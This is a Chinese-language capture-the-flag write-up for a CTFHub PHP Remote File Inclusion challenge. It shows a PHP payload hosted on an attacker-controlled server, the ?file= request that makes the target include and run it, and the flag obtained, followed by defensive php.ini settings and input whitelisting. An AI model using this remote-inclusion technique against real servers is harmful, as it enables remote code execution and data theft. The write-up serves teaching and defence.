

题目信息
- 类型：Web / 文件包含漏洞
- 靶场：CTFHub
- 核心漏洞：远程文件包含（Remote File Inclusion, RFI）
- 目标：通过 RFI 获取服务器 shell 并读取 flag
隐私声明：本文中所有敏感 IP 地址均已做屏蔽处理，统一替换为
xxx.xxx.xxx.xxx，避免暴露真实目标资产。
漏洞分析
远程文件包含（RFI）是 PHP 文件包含漏洞的一种高危利用方式。当应用程序使用 include()、require() 等函数加载文件时，如果用户可控的参数未经过严格过滤，攻击者就可以构造恶意 URL，让服务器加载并执行远程服务器上的 PHP 脚本。
本题的关键利用点：
- 页面存在
?file=参数，用于指定要包含的文件路径 - 服务器配置中
allow_url_include或allow_url_fopen开启，允许包含远程 URL - 攻击者可以在自己控制的服务器上托管恶意 PHP 代码，通过
?file=http://xxx.xxx.xxx.xxx:8000/yjh.txt触发执行
利用步骤
1. 准备恶意payload
在攻击者可控的服务器（IP：xxx.xxx.xxx.xxx，端口：8000）上放置文件 yjh.txt，内容如下：
1<?php
2system("cat /flag");
3?>
注意：文件名使用了
.txt后缀，这是为了绕过部分简单的后缀检测。由于 PHP 的include()函数在包含远程文件时会执行其中的 PHP 代码，因此即使后缀是.txt，其中的 PHP 代码依然会被解析执行。
2. 发送包含请求
通过 Postman 或浏览器构造请求：
1POST http://challenge-xxx.sandbox.ctfhub.com:10800/?file=http://xxx.xxx.xxx.xxx:8000/yjh.txt
请求体（form-data）：
| Key | Value |
|---|---|
| haha | system("cat /flag"); |

3. 获取flag
服务器成功包含远程文件后，执行了 system("cat /flag") 命令，在响应中回显了 flag：
1ctfhub{795edc0ee1c67318f16e2eb3}
同时页面还回显了提示信息：
1<hr>
2i don't have shell, how to get flag?<br>
3<a href="phpinfo.php">phpinfo</a>
这说明目标服务器原本是一个无 shell 的受限环境，但利用 RFI 漏洞，我们成功实现了任意代码执行并读取到了 flag。
原理解析
为什么 .txt 文件也能执行 PHP？
当 PHP 使用 include()、require() 等函数包含远程文件时：
- PHP 会发起 HTTP 请求获取远程文件内容
- 获取到的内容会被当作 PHP 代码解析执行
- 文件扩展名不影响 PHP 解析器的行为，关键是内容中是否包含
<?php ... ?>标签
因此，攻击者可以将恶意 PHP 代码保存在任意扩展名的文件中（如 .txt、.jpg 等），只要被 include() 加载，就会执行。
RFI vs LFI
| 特性 | LFI（本地文件包含） | RFI（远程文件包含） |
|---|---|---|
| 包含来源 | 服务器本地文件 | 远程服务器文件 |
| 利用条件 | 需要可控文件路径 | 需要 allow_url_include=On |
| 危害程度 | 可读取本地敏感文件 | 直接获取远程代码执行（RCE） |
| 典型利用 | 包含 /etc/passwd、日志文件 |
包含 http://attacker.com/shell.txt |
RFI 的危害通常比 LFI 更大，因为它能直接引入外部恶意代码，无需依赖服务器上已有的文件。
防御措施
-
关闭远程文件包含功能 在
php.ini中设置：1allow_url_fopen = Off 2allow_url_include = Off -
严格过滤用户输入 对
file等参数进行白名单校验，只允许包含预定义的安全文件。 -
使用绝对路径 避免直接使用用户输入拼接文件路径。
-
文件包含前校验 使用
realpath()和strpos()确保被包含文件位于允许访问的目录内。
总结
本题通过 RFI 漏洞，将无 shell 的受限环境转化为完整的代码执行能力。核心思路是：
- 发现
?file=参数存在文件包含 - 验证服务器支持远程 URL 包含
- 在可控服务器上托管 PHP 恶意代码
- 通过
?file=http://xxx.xxx.xxx.xxx:8000/yjh.txt触发执行 - 成功读取
/flag获取 flag
RFI 是 Web 渗透中非常经典的漏洞类型，理解其原理和防御方法对于安全开发和渗透测试都至关重要。